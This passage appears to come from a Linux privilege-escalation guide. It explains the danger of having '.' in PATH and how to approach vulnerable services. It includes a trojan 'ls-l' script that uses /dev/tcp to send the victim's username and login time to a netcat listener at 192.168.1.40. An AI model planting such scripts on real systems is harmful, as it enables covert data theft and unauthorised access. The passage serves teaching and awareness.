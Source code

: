 **Discuss: Dot '.' in the path**

Unix/Linux shouldn’t include the current directory '.' by default in the path. Adding it should be
avoided. For example, if I know that someone on the system is using a '.' in their path, I could place
files in areas to which I have write access using actual command names or typical
misspellings/mistypings of those commands such as ls or ls-l (intended space left out). If the current
directory '.' is first in their path, they are in the directory I placed my script, and they type the same
command name that I have given my script, then I am guaranteed that my script will execute
instead of their intended command and it will execute under the context of the current user. I just
have to be sure that my script performs whatever function I desire. Here is an example:

```
#!/bin/bash
# script that sends information to a remote system.
echo "exec 3<>/dev/tcp/192.168.1.40/4444" > /tmp/ls-l
echo "echo \$(whoami) logged in on \$(date) >&3" >> /tmp/ls-l
chmod +x /tmp/ls-l
```
And wait for someone to type in a command with my netcat listener on 192.168.1.40:

```
nc -lp 4444
```
Once they type the desired command, I get the ouput:

```
bill logged in on Fri 19 Apr 2019 02:10:35 PM EDT
```
Although this doesn’t grant access to bill’s stuff, you could write a script that does.

**Discuss: Vulnerable services**

An open port on a system is an avenue for access to a system, legitimately or illegitimately. If you
have legitimate access, then exploitation isn’t necessary. To discuss all the possibilities of exploiting
services would be a college level course in itself. Key steps in service exploitation is enumeration,
research, and testing. Just finding port 80 open doesn’t mean to just start firing web service exploits
willy nilly. Also, what value does exploiting the web service give you? If it is not running as root,
then maybe not much. Before taking any action against a service you need to find the type and
version, determine if there is any value to exploiting the service, and test it in a lab environment


before actual exploitation to ensure it operates as intended.

Sometimes services that are running as administrator have vulnerabilities that can be abused to
gain root access. Running services can be enumerated in the process list and those with network
connectivity can be enumerated with netstat or sockstat.

For example, root processes can be identified with:
